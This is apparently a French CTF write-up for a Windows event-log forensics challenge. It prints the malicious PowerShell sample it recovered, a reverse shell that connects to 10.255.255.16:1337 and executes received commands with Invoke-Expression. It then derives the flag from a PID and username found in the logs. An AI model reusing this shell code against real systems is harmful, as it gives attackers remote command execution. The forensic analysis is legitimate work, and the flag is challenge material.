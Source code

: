 
## Event log comme dans l'intro

![](./enonce.png)

C'est sale mais j'ai refait un `r2  -qcizz M*` 

```powershell
do {
    Start-Sleep -Seconds 1
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

$processId = (Get-Process -Id $PID).Id
$userNameHashCode = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name
$textToHash = $processId.ToString() + $userNameHashCode.ToString()
Write-Host "ID du processus : $processId"
Write-Host "Code de hachage du nom d'utilisateur : $userNameHashCode"
Write-Host "Chaîne de texte à hacher : $textToHash"
$hexString = [System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($textToHash)).Replace('-', '').ToLower()
Write-Host "Valeur de concaténation en hexadécimal : $hexString"



WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}"



while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}

$StreamWriter.Close()
```

En suivant la logique du chall d'intro le flag est donc:

```powershell
Write-Host "La chaîne est : FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Environment]::UserName).ToString()))))).Replace('-', '').ToLower())}"
```

On recherche alors:

- le PID du processus malveillant
- le nom de l'utilisateur sous la forme DOMAIN\user 

Pour ce dernier, on a en effet la fonction:

![](./username.png)

## Evxtdump

On peut utiliser un outil comme **evtxdump** pour reformer les 2 fichiers d'event.

Recherchons l'event sur le fichier *sec_events.txt*  à partir de la date de l'event lançant le powershell

![](./event.png)

Nous avons:

- **SubjectUserName** et **SubjectDomainName** correspondant à l'username
- **ProcessID** correspondant au PID en hexa

##Flag

```powershell
PS /home/burner> $pids = 3788                                                                                                                                                                                                         
PS /home/burner> $username = "FCSC\cmaltese"                                                                                                                                                                                          
PS /home/burner> $hash = [System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(($pids.ToString() + $username).ToString())))).Replace('-', '').ToLower()
PS /home/burner> $hash                                                                                                                                                                                                                
21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa
```

`FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}`

